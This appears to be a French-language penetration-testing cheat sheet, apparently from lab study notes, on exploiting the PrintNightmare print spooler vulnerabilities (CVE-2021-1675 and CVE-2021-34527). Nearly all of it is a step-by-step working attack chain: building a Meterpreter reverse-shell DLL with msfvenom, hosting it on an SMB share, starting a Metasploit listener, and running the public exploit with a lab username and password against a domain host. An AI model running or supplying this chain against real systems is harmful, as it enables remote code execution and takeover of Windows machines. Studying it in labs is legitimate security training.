 
[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) et [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)

Exploite le spooler d'impression


## Netexec

Identifier si la vulnérabilité est présente

```shell
nxc smb <ip> -u '' -p '' -M printnightmare
```


## Cube0x0

https://github.com/cube0x0/CVE-2021-1675


> [!Requis]
> Installer la version d'impacket de cube0x0

1. Installer la bonne version d'impacket

```shell
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

2. Enumérer si `Print System Asynchronous Protocol` et `Print System Remote Protocol` sont exposés sur la target.

```shell
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

3. Génération d'un payload DLL

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

4. Création d'un share hébergeant la DLL

```shell
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

5. Mise en place du listener metasploit

```shell
use exploit/multi/handler
```

```shell
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

```shell
set LHOST 172.16.5.225
```

```shell
set LPORT 8080
```

```shell
run
```

6. Run de l'exploit

```shell
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
